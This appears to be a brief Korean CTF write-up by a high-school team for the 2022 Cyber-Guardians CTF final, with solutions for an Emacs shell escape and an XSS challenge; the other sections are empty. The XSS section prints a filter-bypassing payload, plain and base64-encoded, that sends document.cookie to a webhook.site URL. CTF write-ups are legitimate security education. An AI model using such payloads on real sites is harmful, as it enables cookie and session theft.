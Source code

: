 # 2022 Cyber-Guardians CTF Final

## Dreamhack Profile
School: 덕영고등학교

Team: Asseertive

## Solve list
A - Sanity Check Revenge (@suk-6)

D - xss-1.3 (@suk-6)

E - CProxy: Inject (@fixca)

K - Simple Factor (@suk-6)

M - xss-1.5 (@suk-6)

### Sanity Check Revenge
문제 ssh에 접속하면 GNU Emacs 편집기가 나온다.

ESC + !로 Shell Command 입력창을 불러와서 루트 폴더의 flag 파일을 읽는다.

### xss-1.3
xss-1.3은 문제에서 말하고 있듯 xss 문제이다.

`'`, `"`, `=`를 필터링하고 있다.

필터링을 우회하기 위해 Base64 인코딩으로 해결하였다.

```
<svg/onload=location.href=`https://webhook.site/webhook-id?flag=`.concat(document.cookie)>

to base64(URL-safe) + JS Decoding Code

<script>document.write(atob(`PHN2Zy9vbmxvYWQ9bG9jYXRpb24uaHJlZj1gaHR0cHM6Ly93ZWJob29rLnNpdGUvd2ViaG9vay1pZD9mbGFnPWAuY29uY2F0KGRvY3VtZW50LmNvb2tpZSk-`))</script>
```

### CProxy: Inject

### Simple Factor

### xss-1.5